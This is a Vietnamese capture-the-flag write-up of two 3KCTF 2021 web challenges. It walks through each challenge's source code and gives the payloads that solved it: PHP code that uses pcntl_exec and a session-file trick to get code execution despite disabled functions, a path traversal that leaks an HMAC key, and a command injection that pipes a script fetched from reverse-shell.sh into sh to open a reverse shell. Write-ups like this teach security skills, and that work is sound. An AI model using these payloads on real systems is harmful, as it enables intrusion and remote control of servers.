 ```yaml
---
layout: post
title: "[WRITEUP 3KCTF 2021]: WEB"
categories: CTF
toc: true
---
```

Vì một số công việc cá nhân nên mình viết writeup sau ctf end khá lâu nên mình sẽ tự deploy một số challenge và một số mình chỉ phân tích code và chỉ ra cách exploit.

- Tất cả source của từng bài mình để ở đây nhé -> [src](https://github.com/DauHoangTai/CTF/tree/master/2021/3KCTF)
## Challenge Online_comliper
- Vì mình deploy lại ở local nên mình đi thẳng vào phân tích code của author cung cấp nhé

### Analysis Source
Chúng ta được cung cấp một source và code server được viết bằng python. Chú ý thì thấy có 2 enpoint
![image](https://user-images.githubusercontent.com/54855855/121495607-f5a6e400-ca03-11eb-85a1-16bc6c66d507.png)
Ở đoạn code này thì thấy có 2 hàm là `get_random_string` và `check_file`, 2 hàm này lần lượt có chức năng là tạo ra một chuỗi random và kiểm tra file đó có tồn tại hay không.
![image](https://user-images.githubusercontent.com/54855855/121495928-34d53500-ca04-11eb-9f83-ba1d545fb829.png)
Endpoint đầu tiền là `/save`. Đoạn code này chúng ta có 2 tham số để có thể nhập vào đo là `c_type` và `code`.
c_type nhận php hoặc python nhưng đoạn elif đã được comment lại vậy là chúng ta chỉ có thể nhập `php` vào. Sau đó khi chúng ta truyền tham số vào `code` thì sẽ được check len (phải < 100), tiếp tục filename được gán bằng chuỗi ramdom được tạo bằng hàm mình đã mô tả ở trên. Cuối cùng ghi nhưng gì mình truyền ở `code` vô file vừa được tạo.
![image](https://user-images.githubusercontent.com/54855855/121501634-9b108680-ca09-11eb-981d-a6a54f71bdf4.png)
Ở endpoint `compile` này thì có 2 tham số có thể control là `c_type` và `filename`. `c_type` chúng ta có thể nhập vào là php và py.
Nói chung ở đoạn code này là sẽ thực thi file mà mình đã tạo ở `/save`.
Điều lạ ở đây là lúc tạo file thì chỉ có tạo file php không có python nhưng lúc compile lại có.
Tiếp tục chú ý file php.ini thì hầu như các function có thể RCE đã bị disable.

### Solution
Ở trong php có 1 function là `get_defined_functions` để list ra các function. Sau khi mình list ra và filter các function đã bị disable thì thấy được có một số fucntion không được filter như: `pcntl_exec, session_id, session_start`. Ở đây mình sử dụng `pcntl_exec` để RCE

### Payload
`/save` -> `c_type=php&code=<?php+pcntl_exec('/bin/ls',['/']);?>`
`/compile` -> `c_type=php&filename=vmfxqs.php`
- Cũng có thể sử dụng `session_id,session_start` như sau:
`/save` -> `c_type=php&code=<?php+session_id('test');session_start();$_SESSION['import+os;os.system("ls+/")#']='s'?>`
khi tạo session thì thường là nó sẽ được lưu trong tmp với filename là sess_id
`/compile` -> `c_type=php&filename=/tmp/sess_test`

## Challenge Emoij
- Source mình đã ở trên nên ai muốn test thì chỉ cần download về, sau đó cd tới thư mục emoij và cuối cùng là gõ lệnh `php -S localhost:8080`.

### Analysis Source
![image](https://user-images.githubusercontent.com/54855855/122628659-8a36d380-d0e1-11eb-9dfc-24566cdf0227.png)
Đoạn code này thì chúng ta thấy được secret và flag đã được giấu đi (tất nhiên :v ). Ở hàm `fetch_and_parse` thì đọc content từ link github bằng hàm `file_get_contents` sau đó trả về mảng giá trị nằm trong "" của src.
![image](https://user-images.githubusercontent.com/54855855/122628670-a20e5780-d0e1-11eb-9e74-b539d9c72558.png)
Ở đây thì có 3 tham số nhận vào là `url, key, dir`. Nói chúng đoạn này sẽ gán giá trị trả về là 1 mảng cho biến emoijList. Còn nếu như không có dir thì sẽ kiểm trả `key` mình nhập vào có bằng với `hash_hmac('sha256', $url, $secret)` hay không.

### Solution
Điều chú ý ở đây ![image](https://user-images.githubusercontent.com/54855855/122628754-35478d00-d0e2-11eb-99b4-aa2e70696fa1.png)
là đoạn code này nó sẽ duyệt qua mảng đó mà in ra giá trị và key là `hash_hmac('sha256', $v, $secret)` => mình có thể control được cái $v và => sẽ tìm đc giá trị của hash_hmac với giá trị mình đã truyền vô. từ đó mình tìm có thể biết được cái key cần truyền vào là gì.
Step 1: tạo 1 repo github với nội dung như sau: mình đã tạo sẵn -> https://raw.githubusercontent.com/DauHoangTai/3kctf/main/index.html
Step 2: Mình sẽ path travel để server đọc content ở repo của mình. khi đó sẽ lấy được giá trị của hash_hmac => mình có key

### Payload
`?dir=../../../DauHoangTai/3kctf/main/index` => tìm được key của value này.
![image](https://user-images.githubusercontent.com/54855855/122646717-d66a2e00-d14a-11eb-9093-a7d28c83ad2f.png)
```
?url="%3bcurl+https%3a//reverse-shell.sh/0.tcp.ngrok.io%3a12756+|+sh%3b+%23&key=e5bd633a5ad60d3e0ad64b04fda2ba9236e8ad07a74386ab5fc91d6425e4a48f
```
Vậy đã là thành công.
![image](https://user-images.githubusercontent.com/54855855/122646886-b0915900-d14b-11eb-9910-24508569d68c.png)

#Còn tiếp